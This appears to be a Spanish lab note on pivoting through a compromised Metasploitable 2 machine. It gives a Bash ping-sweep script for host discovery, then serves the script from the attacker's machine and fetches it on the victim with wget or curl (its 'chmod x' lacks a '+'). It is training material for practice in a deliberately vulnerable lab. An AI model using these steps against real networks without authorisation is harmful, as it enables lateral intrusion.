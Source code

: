 Laboratorio:
Máquina Atacante (192.168.1.43)
Máquina Metasploitable 2 (192.168.1.42 / 10.10.10.4)
Máquina Metasploitable 3 (10.10.10.5)

![[Pasted image 20250702213106.png]]

Tenemos un Laboratorio donde todas las máquinas son Linux. Como atacante, una vez dentro de la máquina intermediaria (Metasploitable 2), debemos realizar un descubrimiento de hosts en el segmento de red privado de la máquina Metasploitable 2. Para ello, haremos uso de un script en Bash:

```
#!/bin/bash
# Ten en cuenta cambiar el segmento de red segun el caso
for i in $(seq 1 254); do
    ping -c 1 -W 1 10.10.10.$i &>/dev/null && echo "[+] Host 10.10.10.$i - active" &
done; wait
```

Ahora debemos trasladar este script `hostdiscovery.sh` a la máquina Metasploitable 2.
Podemos montar un **servicio http** con **python** en nuestra máquina atacante y acceder al recurso desde la máquina Mt2 con **curl** o **wget**.

```
 sudo python3 -m http.server
```

![[Pasted image 20250702212611.png]]

Ahora desde la máquina Mt2 descargaremos el recurso y le daremos privilegios de ejecución.

```
wget http://192.168.1.43:8000/hostdiscovery.sh
chmod x hostdiscovery.sh
```

O

```
curl "http://192.168.1.43:8000/hostdiscovery.sh" -o hostdiscovery.sh
chmod x hostdiscovery.sh
```

![[Pasted image 20250702213245.png]]
